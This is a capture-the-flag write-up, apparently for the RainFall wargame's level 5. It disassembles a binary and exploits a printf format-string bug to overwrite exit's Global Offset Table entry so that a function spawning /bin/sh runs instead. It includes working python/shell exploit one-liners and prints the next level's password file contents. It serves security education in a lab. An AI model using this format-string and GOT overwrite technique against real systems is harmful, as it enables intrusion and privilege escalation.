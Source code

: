 # Level 5

```gdb
(gdb) info function
All defined functions:

Non-debugging symbols:
0x08048334  _init
0x08048380  printf
0x08048380  printf@plt
0x08048390  _exit
0x08048390  _exit@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  system
0x080483b0  system@plt
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x080483d0  exit
0x080483d0  exit@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  o
0x080484c2  n
0x08048504  main
0x08048520  __libc_csu_init
0x08048590  __libc_csu_fini
0x08048592  __i686.get_pc_thunk.bx
0x080485a0  __do_global_ctors_aux
0x080485cc  _fini
(gdb) 


(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x18,%esp
   0x080484aa <+6>:	movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	movl   $0x1,(%esp)
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   %ebp
   0x080484c3 <+1>:	mov    %esp,%ebp
   0x080484c5 <+3>:	sub    $0x218,%esp
   0x080484cb <+9>:	mov    0x8049848,%eax
   0x080484d0 <+14>:	mov    %eax,0x8(%esp)
   0x080484d4 <+18>:	movl   $0x200,0x4(%esp)
   0x080484dc <+26>:	lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:	mov    %eax,(%esp)
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:	mov    %eax,(%esp)
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	movl   $0x1,(%esp)
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.
(gdb) disas main
Dump of assembler code for function main:
   0x08048504 <+0>:	push   %ebp
   0x08048505 <+1>:	mov    %esp,%ebp
   0x08048507 <+3>:	and    $0xfffffff0,%esp
   0x0804850a <+6>:	call   0x80484c2 <n>
   0x0804850f <+11>:	leave  
   0x08048510 <+12>:	ret    
End of assembler dump.
(gdb)
```

Ghidra :

```c
void o(void)

{
  system("/bin/sh");
                    /* WARNING: Subroutine does not return */
  _exit(1);
}

void n(void)

{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  printf(local_20c);
                    /* WARNING: Subroutine does not return */
  exit(1);
}

void main(void)
{
  n();
  return;
}
```

Another printf format attack string, but this time, its a function we need to call to get our flag.

This might be tricky this time, as we dont have a target to edit, we must execute the o() function.

We can try to override the exit function so it points to the o() function, lets do it.

Lets take o() address 0x080484a4.

134513828 - 4
= 134513824

And the address of exit 0x80483d0.

We want to overwrite exit, and not the return of main(), since obviously... We wont go back to main after the exit.

```sh
$ (python -c "print '\xd0\x83\x04\x08' + '%134513824x' + '%4\$n'"; cat) | ./level5
(...)
(...)
(...)
(...)
(...)
Segmentation fault (core dumped)
```

But it doesn't work, the address doesn't get changed, what's wrong ?

Basically i tried to overwrite the exit function, but there is thing call the GOT overwrite. (Global Offset Table)

It is used to cache the memory addresses of libc function, in order to avoid calling the hole library each time an external function is called.

Maybe the right address of exit() is inside, lets check :

```
level5@RainFall:~$ objdump -R ./level5 

./level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
level5@RainFall:~$ 

```

Lets try with this address :

```sh

(python -c "print '\x38\x98\x04\x08' + '%134513824x' + '%4\$n'"; cat) | ./level5
(...)
(...)
(...)
(...)
(...)
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31

```

And here we go  